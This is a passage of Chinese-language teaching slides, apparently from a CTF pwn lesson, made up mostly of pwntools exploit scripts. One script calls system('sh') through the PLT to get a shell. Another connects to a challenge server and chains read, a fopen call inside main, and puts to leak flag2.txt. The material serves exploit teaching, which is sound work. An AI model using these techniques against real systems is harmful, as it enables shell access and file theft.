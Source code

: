 ```python
send(2,3)
send(6,elf.plt['read'])
io.send('sh\x00')

#system('sh')
send(0,buf)
send(6,elf.plt['system'])

io.interactive()
```

--

# 上面的都不夠 trick

--

## 情境 3

- 如果今天沒有給 system
- 用 main 的 fopen 開 flag2.txt

```python
from pwn import *

io=remote('sv.duckll.tw',8888)
#  io=remote('localhost',4000)

elf=ELF('./a.out')
buf=elf.bss()+0x100

def send(key,value):
    io.sendafter(":",str(key))
    io.sendlineafter(":",str(value))

#read(0,buf,12)
send(0,0)
send(1,buf)
send(2,12)
send(6,elf.plt['read'])
io.send('flag2.txt\x00r\x00')

#fopen('flag2.txt','r')
send(0,buf)
send(1,buf+10)
send(6,elf.symbols['main']+79)

#flag2.txt
io.recvuntil("flag in ")
flag=int(io.recvline()[:-1],16)

#puts(flag2)
send(0,flag)
send(6,elf.plt['puts'])

io.interactive()
```
